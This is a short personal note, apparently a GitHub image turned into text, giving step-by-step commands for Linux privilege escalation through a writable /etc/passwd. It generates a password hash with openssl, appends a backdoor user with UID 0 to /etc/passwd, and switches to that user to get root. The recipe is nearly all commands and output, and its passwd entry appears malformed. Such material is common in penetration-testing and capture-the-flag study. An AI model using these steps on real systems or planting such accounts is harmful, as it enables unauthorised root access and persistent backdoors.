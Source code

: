 <pre>
Priv esc with /etc/passwd:
/etc/passwd -> weak and can modify by others

    Lets make new user:
        $ openssl passwd -1 -salt arnav pass123 
            Result: $1$arnav$o8F/YObXhnuM67NCy.3fk1

    arnav:$1$arnav$o8F/YObXhnuM67NCy.3fk1:0:0:/root/root:/bin/bash
        $ nano /etc/passwd
        Add arnav:$1$arnav$o8F/YObXhnuM67NCy.3fk1:0:0:/root/root:/bin/bash at the end of file
        $ su arnav
        $ pass123

        And got root! :D
</pre>
